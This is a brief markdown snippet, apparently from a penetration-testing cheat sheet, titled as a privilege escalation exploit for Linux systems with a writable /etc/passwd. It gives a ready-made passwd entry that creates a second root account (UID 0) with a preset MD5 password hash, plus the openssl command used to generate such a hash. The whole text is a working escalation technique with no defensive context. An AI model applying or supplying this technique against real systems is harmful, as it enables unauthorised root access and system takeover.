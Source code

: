 # /etc/passwd writable line privilege escalation exploit

## write new root user line
```
c0:$1$coyote0x$S9Aruc4H1kvDizg..ij81.:0:0:root:/root:/bin/bash
```

## generate password
```bash
openssl passwd -1 -salt coyote0x90
```
